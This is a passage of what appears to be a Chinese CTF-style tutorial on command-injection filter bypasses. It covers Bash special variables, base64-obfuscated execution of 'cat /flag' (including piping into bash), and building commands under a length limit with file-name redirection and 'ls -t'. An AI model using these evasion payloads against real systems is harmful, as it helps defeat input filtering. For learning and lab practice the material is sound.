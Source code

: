 ## Level 5 - 编码 & 特殊 Shell 变量

利用 Shell 变量和编码方案。

**特殊的 Bash 变量:**

* `${#}`: 位置参数的数量（如果没有则为 0）。
* `${?}`: 上一个命令的退出状态（0 表示成功，非零表示失败）。
* `${_}`: 上一个命令的最后一个参数。
* `${0}`: 当前 Shell 或脚本的名称。
* `${1}` 到 `${9}`: 第 1 到第 9 个位置参数。
* `${@}`: 所有位置参数，作为单独的词。
* `${*}`: 所有位置参数，作为一个单独的词。
* `${$}`: 当前 Shell 的进程 ID (PID)。
* `${!}`: 最近一个后台命令的 PID。
* `${-}`: 为 Shell 设置的当前选项（例如 `hB`）。

**Base64 编码示例:**

```bash
# 使用 base64 解码执行 'cat /flag' (Y2F0IC9mbGFn)

# 方法 1: 使用 echo 进行命令替换
cat "$(echo 'L2ZsYWc=' | base64 -d)" # 解码 '/flag'

# 方法 2: 使用 echo 和反引号 (不太推荐)
`echo "Y2F0IC9mbGFn" | base64 -d` # 执行解码后的命令

# 方法 3: 将解码后的命令通过管道传给 bash
echo "Y2F0IC9mbGFn" | base64 -d | bash
```

---

## Level 6 - 长度限制绕过

绕过对每个命令输入长度的限制，通常通过使用重定向和 `ls -t` 逐步构建脚本。

**概念:**

1.  使用带有重定向 (`>`) 的短命令，将所需命令/脚本的部分内容逐行写入文件。
2.  `ls -t` 按修改时间对文件排序（最新的在前）。
3.  重定向 `ls -t` 的输出 (`ls -t > file`) 可以将按相反顺序写入的行组装成最终的脚本文件。
4.  执行组装好的脚本文件（例如 `sh file`）。

**示例步骤 (简化):**

假设每个命令有 5 个字符的限制。目标：运行 `ls -l > output`。

1.  `>l\ ` (写入 "l ")
2.  `>-\ ` (写入 "-")
3.  `>\>o*` (写入 ">o*" - 假设 'output' 匹配 'o*')
4.  `>ls\ ` (写入 "ls ")
5.  `ls -t>a` (根据修改时间将行合并到文件 'a' 中 - 顺序可能需要技巧)
6.  `sh a` (执行存储在 'a' 中的组装好的命令 `ls -l >output`)
